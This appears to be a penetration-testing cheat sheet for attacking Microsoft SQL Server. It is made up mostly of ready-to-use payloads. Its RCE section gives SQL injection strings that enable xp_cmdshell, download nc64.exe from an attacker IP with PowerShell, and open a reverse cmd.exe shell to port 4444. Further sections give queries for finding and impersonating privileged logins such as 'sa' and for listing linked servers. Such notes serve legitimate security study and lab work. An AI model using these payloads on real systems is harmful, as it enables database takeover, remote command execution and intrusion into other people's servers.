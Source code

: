### RCE

For MSSQL on windows we can run any code in SQL injection: To get RCE:

```sql
';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- 
';EXEC xp_cmdshell "powershell wget http://192.168.45.245/nc64.exe -o C:\Users\Public\nc64.exe";--
';EXEC xp_cmdshell "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.245 4444";--
```

Using Public folder as we know it is writeable by all users.

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE;
EXEC xp_cmdshell "powershell wget http://192.168.45.245/nc64.exe -o C:\Users\Public\nc64.exe";
EXEC xp_cmdshell "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.245 4444";
```

### Impersonation

Check users we can impersonate:

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

To impersonate:

```sql
EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```

Verifying current user and role:

```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

### Linked Database

```sql
SELECT srvname, isremote FROM sysservers
```

### Enable xp\_cmdshell

```sql
EXEC master.dbo.sp_configure 'show advanced options', 1;
RECONFIGURE;
```
